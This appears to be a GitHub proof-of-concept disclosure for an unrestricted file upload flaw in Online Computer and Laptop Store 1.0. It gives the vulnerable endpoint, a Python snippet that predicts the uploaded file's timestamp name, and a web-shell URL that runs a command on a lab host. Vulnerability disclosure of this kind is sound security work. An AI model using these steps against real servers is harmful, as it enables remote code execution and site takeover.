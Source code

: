 # php-ocls
php-ocls
Online Computer and Laptop Store 1.0 allows Unrestricted file upload and can lead to remote code execution. The vulnerability located in /classes/Users.php?f=save. The name of the uploaded file can be easily obtained through the timestamp.
![图片](https://user-images.githubusercontent.com/58156046/233908793-43f8a51e-ea97-4bc1-a133-24040bd21e12.png)
1. Send the request and note when it was sent.
![图片](https://user-images.githubusercontent.com/58156046/233908652-5bebd05d-ac45-44af-969c-8dbfa31c12a4.png)
2. Calculate the timestamp.
import time

timeArray = time.strptime('2023-04-24 13:40:00', "%Y-%m-%d %H:%M:%S")
time_format= time.mktime(timeArray)
print(int(time_format))
3. Get Shell.
http://192.168.3.43/php-ocls/uploads/1682314800_shell.php?cmd=phpinfo();
![asdasdasd](https://user-images.githubusercontent.com/58156046/233910339-3bdf9181-19b1-4950-bcdc-7c514c40f19d.png)
